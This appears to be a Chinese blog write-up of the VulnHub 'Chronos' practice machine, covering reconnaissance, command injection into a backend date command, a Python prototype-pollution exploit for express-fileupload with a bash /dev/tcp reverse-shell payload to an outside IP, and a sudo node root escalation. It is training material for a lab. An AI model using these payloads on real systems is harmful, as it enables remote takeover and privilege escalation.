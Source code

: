 ```yaml
---
title: VulnHub靶场 Chronos
description: VulnHub靶场 Chronos WP
pubDate: 10 20 2024
image: https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-5.png
categories:
  - 网络安全
tags:
  - 靶场
  - VulnHub靶场
  - 渗透测试
---
```


进行二层发现

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-1.png)

发现目标主机为 `192.168.135.105`，进行端口扫描

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-2.png)

发现目标主机上开放 80 端口，访问目标端口 HTTP 服务

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-6.png)

没啥东西，尝试目录扫描，也没出货。查看源码

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-4.png)

这里存在一段 JS，不过有一些混淆。不过这里有一个明文的 URL

```url
http://chronos.local:8000/date?format=4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL
```

这里端口是 8000 端口，而且我们在进行端口扫描的时候，也发现了目标主机上开放了 8000 端口。而这个域名 `chronos.local`，可能就是靶机。我们可以添加个 hosts 试试。然后再刷新页面

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-5.png)

页面发生了变化，我们直接访问 `http://chronos.local:8000`。不过在 windows 上经过测试，需要添加 UA 头，值为 `Chronos`。再次访问，得到如下结果

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-7.png)

没啥东西了，重点应该就是这个 `4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL`，尝试解一下

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-8.png)

那么他是怎么输出的呢？

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-9.png)

结果和我们页面返回的一样。那么我们猜测后端其实就是执行了一个 date 命令，那么利用管道符就可以执行目标命令

```
date +Today is %A, %B %d, %Y %H:%M:%S.' || ls
```

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-10.png)

重放进行尝试

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-11.png)

得到 ls 命令结果，命令执行成功。使用 nc 进行反弹，失败，使用 MSF，成功

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-12.png)

一番找，在 `/opt/chronos-v2/backend` 下发现个 `package.json`

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-13.png)

```json
{
  "name": "some-website",
  "version": "1.0.0",
  "description": "",
  "main": "server.js",
  "scripts": {
    "start": "node server.js"
  },
  "author": "",
  "license": "ISC",
  "dependencies": {
    "ejs": "^3.1.5",
    "express": "^4.17.1",
    "express-fileupload": "^1.1.7-alpha.3"
  }
}
```

这里有一些 `chronos-v2` 引用的库，这里有个 `express-fileupload`，该库存在 JS 原型污染，并且在服务端，必要条件 `parseNested` 为 True 也存在

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-14.png)

exp 如下

```python
import requests

cmd = 'bash -c "bash -i &> /dev/tcp/192.168.135.192/8888 0>&1"'

# pollute
requests.post(
    'http://127.0.0.1:8080',
    files={
        '__proto__.outputFunctionName':
        (None,
         f"x;console.log(1);process.mainModule.require('child_process').exec('{cmd}');x"
         )
    })

# execute command
requests.get('http://127.0.0.1:8080')
```

注意，由于是 `server.js` 下存在这个漏洞，它的监听端口是 `127.0.0.1:8080`，所以不要搞错 IP 端口。

把文件传到 `/tmp` 下，运行，即可得到反弹 shell

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-15.png)
但是不是 root 权限，我们使用 `sudo -l` 查看

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-16.png)

可以看到，`/usr/local/bin/node` 有 root 权限。使用 node 进行提权

```shell
sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-17.png)

然后再传 MSF 马，得到 root 权限

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-18.png)
